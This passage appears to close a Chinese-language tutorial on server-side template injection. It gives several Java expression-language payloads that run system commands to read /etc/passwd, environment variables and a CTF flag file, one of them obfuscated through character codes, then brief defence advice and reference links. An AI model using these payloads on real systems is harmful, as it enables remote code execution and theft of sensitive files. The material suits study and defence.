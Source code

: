 Payload:

```java
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec('cat /flag').getInputStream())).readLine()
```

文件操作：

```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

## 0x05 防御方法

- 和其他的注入防御一样，绝对不要让用户对传入模板的内容或者模板本身进行控制

- 减少或者放弃直接使用格式化字符串结合字符串拼接的模板渲染方式，使用正规的模板渲染方法


## 0x06 参考链接

- [一篇文章带你理解漏洞之 SSTI 漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)

- [服务端模板注入攻击 (SSTI) 之浅析](https://blog.knownsec.com/2015/11/server-side-template-injection-attack-analysis/)

- [Flask之 SSTI 模版注入从零到入门](https://xz.aliyun.com/t/3679)

- [Server-Side Template Injection: RCE for the modern webapp](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)


